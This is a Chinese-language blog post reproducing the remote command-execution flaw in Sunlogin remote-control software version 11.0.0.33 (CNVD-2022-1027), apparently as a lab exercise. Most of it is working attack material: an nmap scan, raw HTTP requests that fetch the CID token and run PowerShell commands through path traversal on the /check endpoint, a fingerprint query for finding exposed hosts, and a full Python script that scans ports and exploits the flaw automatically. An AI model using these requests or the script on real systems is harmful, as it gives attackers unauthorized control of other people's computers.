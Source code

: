```yaml
---
title: sunlogin_rce复现
date: 2022-02-18
categories: tool
tags:
- 复现
- rce
---
```


记录一下向日葵rce复现和端口扫描学习。

<!-- more -->

## 0x00 简介

```
向日葵是一款免费的，集远程控制电脑手机、远程桌面连接、远程开机、远程管理、支持内网穿透的一体化远程控制管理工具软件。
```

## 0x01 漏洞概述

```
https://www.cnvd.org.cn/flaw/show/CNVD-2022-1027
上海贝锐信息科技股份有限公司向日葵个人版for Windows存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。
```

## 0x02 影响版本

```
上海贝锐信息科技股份有限公司 向日葵个人版for Windows 11.0.0.33
```

## 0x03 环境搭建

目前官网只有最新版可以下载V 12.5.1.44969（2022.02），之前可以根据爆破versionid来下载不同版本，但没成功，直接找了漏洞版本

![](https://0314valen.github.io/images/img/sunlogin_rce/0.png)

![](https://0314valen.github.io/images/img/sunlogin_rce//1.png)

这边用的版本是向日葵远程控制_11.0.0.33162，可以直接免安装运行

![](https://0314valen.github.io/images/img/sunlogin_rce//2.png)

运行左下角可以看到绿色连接服务器成功，并且有识别码和验证码，这样基本上环境就弄好了。

## 0x04 漏洞复现

客户端在运行的时候会开启一个40000+的端口，首先用端口扫描得到这个端口，我用的是nmap

```
nmap -sS -p 1-65535 -v 192.168.3.198
```

![](https://0314valen.github.io/images/img/sunlogin_rce//3.png)

可以看到存在误报，所以需要经过尝试后可以确定是56399端口

![](https://0314valen.github.io/images/img/sunlogin_rce//4.png)

然后构造如下数据包拿到CID:sobGzXzWBfSlSbdqnmkUbJMLEjhssRx1添加到cookie:CID

```
GET /cgi-bin/rpc?action=verify-haras HTTP/1.1
Host: 192.168.3.198:56399
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](https://0314valen.github.io/images/img/sunlogin_rce//5.png)

也可以使用如下数据包得到CID、设备的公网、内网地址等信息

其中username和password分别表示主机的账号和密码

```
GET /cgi-bin/login.cgi?act=login&username=admin&password=admin&hostname=1 HTTP/1.1
Host: 192.168.3.198:56399
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: CID=6onb943qKJoXQGAmr1BKArugFlO9949g
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](https://0314valen.github.io/images/img/sunlogin_rce//6.png)

拿到CID之后构造如下数据包就能RCE

```
GET /check?cmd=ping../../../../../../../windows/system32/windowspowershell/v1.0/powershell.exe+whoami HTTP/1.1
Host: 192.168.3.198:56399
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: CID=0243aFf9X19BCrB9vrfSLludf4jc9lai
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](https://0314valen.github.io/images/img/sunlogin_rce//7.png)

###### 检测脚本

指纹信息

```
body="Verification failure" && body="false" && header="Cache-Control: no-cache" && header="Content-Length: 46" && header="Content-Type: application/json"
```

python版本exp：

```
import json
from datetime import datetime
import socket
import pyfiglet
import requests
from multiprocessing.dummy import Pool as ThreadPool
from fake_useragent import UserAgent
open_port = []

class ScanPort:
    def __init__(self, ip):
        # 初始化设置相关参数
        self.ip = ip  # 需要扫描的IP
        self.host = None

    def scan(self, port):
        # 执行扫描操作
        try:
            # 建立socket连接
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 地址簇,套接字类型
            res = s.connect_ex((self.ip, port))
            if res == 0:
                print('IP地址：{0}\tPort：{1}\t的状态是open'.format(self.ip, port))
                open_port.append(port)
        except Exception as e:
            print(e)
        finally:
            s.close()

    def setting(self):
        # 设置线程数和端口信息
        port = [i for i in range(1, 65535)]  # 所有的端口列表
        # host = socket.gethostbyname(self.ip)#设置主机名
        socket.setdefaulttimeout(0.5)  # 设置超时
        t1 = datetime.now()  # 开始时间
        pool = ThreadPool(processes=1000)
        pool.map(self.scan, port)
        pool.close()
        pool.join()
        print('[***] 端口扫描已完成，耗时：', datetime.now() - t1)


def poc(ip):
    for port in open_port:
        url = 'http://'+ip+':'+str(port)+'/cgi-bin/rpc?action=verify-haras'
        try:
            res=requests.get(url,verify=False,timeout=1).text
            if 'verify_string' in res:
                print('[***]端口：{0}存在漏洞\n[***]url为：{1}'.format(str(port),url))
                rce('http://'+ip+':'+str(port))
                exit(0)
        except Exception as e:
            pass
def rce(url):
    ua = UserAgent().random#随机UA
    get_cid=json.loads(requests.get(url+'/cgi-bin/rpc?action=verify-haras', verify=False, timeout=1).text)['verify_string']
    print(get_cid)
    headers={
        "User-Agent": ua,
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": "CID =" + get_cid
    }
    payload=url+'/check?cmd=ping../../../windows/system32/windowspowershell/v1.0/powershell.exe+whoami'
    req = requests.get(payload, headers=headers, verify=False).text

    print('[***]'+url+'存在漏洞\n'+req)

if __name__ == '__main__':
    print(pyfiglet.figlet_format('sunlogin_rce'))
    ip = input('[*]输入要扫描的IP地址：')
    print('[***]开始对端口进行扫描')
    ScanPort(ip).setting()
    poc(ip)
```

## 0x05 修复方式

```
升级最新版本
```

## 参考链接：

```
https://www.cnvd.org.cn/flaw/show/CNVD-2022-1027
https://0314valen.github.io/images/img/sunlogin_rce/向日葵远程控制_11.0.0.33162.exe
```
